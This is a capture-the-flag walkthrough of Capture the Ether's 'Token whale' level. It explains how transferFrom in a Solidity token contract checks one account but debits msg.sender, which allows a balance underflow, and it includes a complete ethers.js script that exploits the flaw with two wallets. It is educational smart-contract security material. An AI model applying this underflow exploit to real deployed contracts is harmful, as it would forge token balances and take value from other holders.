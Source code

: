 ```yaml
---
description: >-
  In Capture the Ether's "Token whale" we see a slightly more challenging and
  better obscured math-related vulnerability.
---
```


# Token whale

This [level](https://capturetheether.com/challenges/math/token-whale/) asks us to assume the role of a whale, holding the entirety of the token supply for a new protocol. Our challenge is to accumulate many more _without_ the ability to buy them outright.

### Hints

<details>

<summary>Hint One</summary>

The key to this exploit is still a "math" vulnerability. It's just obscured by an extra step, an error in the contract's implementation that is not itself math-related.

</details>

<details>

<summary>Hint Two</summary>

The vulnerability you need to take advantage of is found in the `_transfer` function when called from `transferFrom`. You need to be able to satisfy each of the latter's `require` conditions first.

</details>

<details>

<summary>Hint Three</summary>

You will need to issue transactions from **two** separate EOAs to solve this level.

</details>

### Full Walkthrough

As we scan the contract, we may notice both a potential overflow and underflow vulnerability within the `_transfer` function (lines 2 and 3 below):

```solidity
function _transfer(address to, uint256 value) internal {
    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;

    emit Transfer(msg.sender, to, value);
}
```

Line 3 would require submitting a `value` large enough to _over_flow our balance, which is impractical due to other restrictions imposed by the contract, but line 2, an _under_flow is worth investigating. If we could, for example, reduce our account balance to 0 by transferring away our tokens, then attempt to transfer just one more, it would "roll over" our balance to its type's maximum value. Is this possible?

Transferring the full amount of our tokens away to another address is straightforward. But transferring one additional token, i.e. one more than our current balance, cannot be achieved via the `transfer` function due to its `require(balanceOf[msg.sender] >= value);` condition. It **should** not be possible to do via `transferFrom` either, but there is a flaw in the implementation.

Let's examine the `transferFrom` function below:

```solidity
function transferFrom(address from, address to, uint256 value) public {
    require(balanceOf[from] >= value);
    require(balanceOf[to] + value >= balanceOf[to]);
    require(allowance[from][msg.sender] >= value);

    allowance[from][msg.sender] -= value;
    _transfer(to, value);
}
```

The function's `require` conditions check that the balance of the `from` address is greater than or equal to the value we are attempting to transfer, however, when it calls `_transfer`, that function actually spends tokens from `msg.sender`, ignoring the `from` address altogether. This means if we call the function from an address that has zero tokens, but pass an address that has a positive balance as the first argument, we can underflow the account of `msg.sender` in `_transfer`. The only other step required is first granting `msg.sender` the requisite allowance to call `transferFrom` on behalf of the `from` account (this is granted via the `approve` function). See the scripted solution below (beginning on line 60) for these steps in order.

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  // Create player one wallet
  const playerOneWallet = new ethers.Wallet(process.env.PLAYER_ONE_PRIVATE_KEY)
  // Create player one wallet signer - an abstraction of an Ethereum account
  const playerOneSigner = await playerOneWallet.connect(provider)
  // Create player two wallet
  const playerTwoWallet = new ethers.Wallet(process.env.PLAYER_TWO_PRIVATE_KEY)
  // Create player two wallet signer - an abstraction of an Ethereum account
  const playerTwoSigner = await playerTwoWallet.connect(provider)
  // Create contract signed by player one
  const contractWithPlayerOneSigner = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerOneSigner
  )
  // Create contract signed by player two
  const contractWithPlayerTwoSigner = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerTwoSigner
  )

  return {
    provider,
    playerOneAddress: process.env.PLAYER_ONE_ADDRESS,
    playerOneWallet,
    playerOneSigner,
    playerTwoAddress: process.env.PLAYER_TWO_ADDRESS,
    playerTwoWallet,
    playerTwoSigner,
    contractWithPlayerOneSigner,
    contractWithPlayerTwoSigner
  }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    playerOneAddress,
    contractWithPlayerOneSigner,
    playerTwoAddress,
    contractWithPlayerTwoSigner
  } = await setup('TokenWhaleChallenge')

  // Approve player one to spend player two's tokens
  console.log("Approving player one to spend player two's tokens...")
  const approvePlayerOne = await contractWithPlayerTwoSigner.approve(
    playerOneAddress,
    1000
  )
  await approvePlayerOne.wait(1)

  // Transfer all of player one's tokens to player two
  console.log("Transfering all of player one's tokens to player two...")
  const transferToPlayerTwo = await contractWithPlayerOneSigner.transfer(
    playerTwoAddress,
    1000
  )
  await transferToPlayerTwo.wait(1)

  // Transfer one more coin from player one's empty wallet
  console.log(
    "Transfering one more token from player one's empty wallet to player two..."
  )
  const transferFromPlayerOne = await contractWithPlayerOneSigner.transferFrom(
    playerTwoAddress, // from: used to pass require, but not the actual 'from' account
    playerTwoAddress, // to: player two
    1 // value: 1 coin from player one's (msg.sender's) empty wallet
  )
  await transferFromPlayerOne.wait(1)

  // Confirm challenge completion
  console.log('Confirming challenge completion...')
  const challengeComplete = await contractWithPlayerOneSigner.isComplete()

  if (challengeComplete) {
    console.log('Challenge is complete!')
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
